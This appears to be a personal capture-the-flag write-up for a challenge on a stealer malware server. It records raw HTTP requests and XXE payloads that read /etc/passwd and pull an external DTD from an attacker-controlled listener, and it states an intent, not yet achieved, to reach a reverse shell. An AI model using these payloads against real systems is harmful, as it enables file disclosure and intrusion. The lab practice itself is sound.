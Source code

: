 #+title: Data Dome


* intro
According to information from our cyber security team, the computer of the manager of an organization we serve was infected with malware. Our malware analysis team identified a malware known as 'Stealer' malware. In addition, we found an IP address through which the malware was communicating. Your task is to collect information about the malware gang from this IP address.

* initial tests
#+begin_src xml
POST /api/data HTTP/1.1
Host: 172.20.1.124
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
Content-Type: application/xml
Content-Length: 759

<?xml version="1.0"?>
<UserData>
  <UserInformation>
    <UserName>gabriel</UserName>
    <Country>Canada</Country>
<ZipCode>
61
</ZipCode>
<Location>
Br
</Location><CurrentLanguage>
br
</CurrentLanguage>
<IPAddress>
127.0.0.1
</IPAddress>
<ScreenSize>
12
</ScreenSize>
<OperationSystem>
lINUX
</OperationSystem>
<LogDate>
12/12/2001
</LogDate>
<AvailableKeyboardLayouts>
dsad
</AvailableKeyboardLayouts>
<Hardwares>
fsad
</Hardwares>
<Antiviruses>
eset
</Antiviruses>
  </UserInformation>
 <Passwords>
    <Password>
      <URL>
http://localhost</URL>
      <Username>
gabirle</Username>
      <Password>
admin123</Password>
      <Application>
zabbix</Application>
    </Password>
  </Passwords>
</UserData>
#+end_src

*REsponse* ->
#+begin_src sh
HTTP/1.1 200 OK
Date: Fri, 17 Oct 2025 18:59:18 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.29
Vary: Accept-Encoding
Content-Length: 102
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: application/xml

<Response><Success>Data successfully processed and saved.</Success><Data>
127.0.0.1
</Data></Response>
#+end_src

More tests for XXE vulnerability
#+begin_src sh
POST /api/data HTTP/1.1
Host: 172.20.10.99
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
Content-Type: application/xml
Content-Length: 165

<?xml version="1.0" ?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "file:///etc/passwd">
  <!ENTITY % dtd SYSTEM "http://10.8.58.60:8888">
  %dtd;
]>
<foo></foo>
#+end_src

*Result* ->
#+begin_src sh
[16:35][]~ ✮ nc -lvnp 8888
Listening on 0.0.0.0 8888
Connection received on 172.20.10.99 54334
GET / HTTP/1.0
Host: 10.8.58.60:8888
#+end_src


-----

Com este payload estou recebendo a request em meu python server, preciso evoluir isto para algum tipo de shell, para então conseguir o reverse shell
#+begin_src sh
<?xml version="1.0" ?><!DOCTYPE foo [<!ENTITY % file SYSTEM "file:///etc/passwd"><!ENTITY % dtd SYSTEM "http://10.8.58.60:8888/p.dtd"> %dtd; %error; ]><foo></foo>
#+end_src

Tentando algo com ->
#+begin_src sh
<?xml version="1.0" ?><!DOCTYPE foo [<!ENTITY % file SYSTEM "file:///etc/passwd"><!ENTITY % dtd SYSTEM "http://10.8.58.60:8888/p.dtd"> %dtd; ]>
<UserInformation><UserName>%error;</UserName><Country>BR</Country></UserInformation>
#+end_src

As requests chegam até o python server, porém estes payloads com dtd não estão funcionando ainda, vou continuar tentando nisso.
